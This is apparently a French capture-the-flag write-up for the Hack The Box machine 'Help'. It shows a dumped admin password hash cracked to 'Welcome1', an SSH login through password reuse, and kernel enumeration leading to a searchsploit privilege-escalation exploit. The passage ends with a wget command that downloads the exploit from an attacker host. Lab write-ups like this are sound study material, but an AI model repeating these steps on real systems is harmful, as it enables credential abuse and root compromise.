 ```bash
+----+----------+--------------------+---------------+--------------------+------------+------------+--------------------+----------+--------+--+--------+-------+--------+
|  1 | admin    | d318f44739dced66793b1a603028133a76ae680e | Administrator | support@mysite.com | 1547216217 | 1543429746 | a:1:{i:0;s:1:"1";} |          | Best regards,
Administrator |                      0 | NULL   |     1 | Enable |
+----+----------+--------------------+---------------+--------------------+------------+------------+--------------------+----------+--------+--+--------+-------+--------+
1 row in set (0.00 sec)

mysql> exit;
```
En utilisant `crackstation.net`, on tente de retrouver le mot de passe relié au hachage et on obtient:
`d318f44739dced66793b1a603028133a76ae680e` -> Welcome1

On peut maintenant se connecter en SSH avec le compte help et ce mot de passe (PASSWORD REUSE...) :
```bash
ssh help@help.htb 
help@help.htb's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have new mail.
Last login: Fri Jan 11 06:18:50 2019
help@help:~$
```

## Privilege Escalation

### Vulnerable Kernel : Linux version 4.4.0-116-generic

En utilisant linpeas, on trouve la version du Kernel qui semble un peu vieux (Feb 12 21:23:04 UTC 2018) alors que la machine date de Janvier 2019. On tente une recherche sur internet et sur **searchsploit** pour voir si ce kernel est vulnerable.

Il semble que les Kernel linux en dessous de cette version sont vulnerable mais pas celle ci. C'est à dire : < 4.4.0-116-generic.
D'après ce que j'ai appris, il est toujours important de vérifier quand même si une exploitation est possible pour une version, même si c'est indiqué "<". Parfois, "<" est en realité "<=".
```bash
══════════════════════════════╣ System Information ╠══════════════════════════════
                              ╚════════════════════╝
╔══════════╣ Operative system
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#kernel-exploits
Linux version 4.4.0-116-generic (buildd@lgw01-amd64-021) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.9) ) #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.5 LTS
Release:	16.04
Codename:	xenial
```
J'ai récupérer l'exploit trouvé sur searchsploit :
```bash
searchsploit 4.4.0-116        
- -------------------------------------------------------
 Exploit Title
- -------------------------------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation
```
Il m'a suffit ensuite de la télécharger sur la machine, de le compiler avec gcc puis de l'executer afin d'obtenir un shell en tant que root :
```bash
help@help:~$ wget http://10.10.16.10:8000/44298.c
```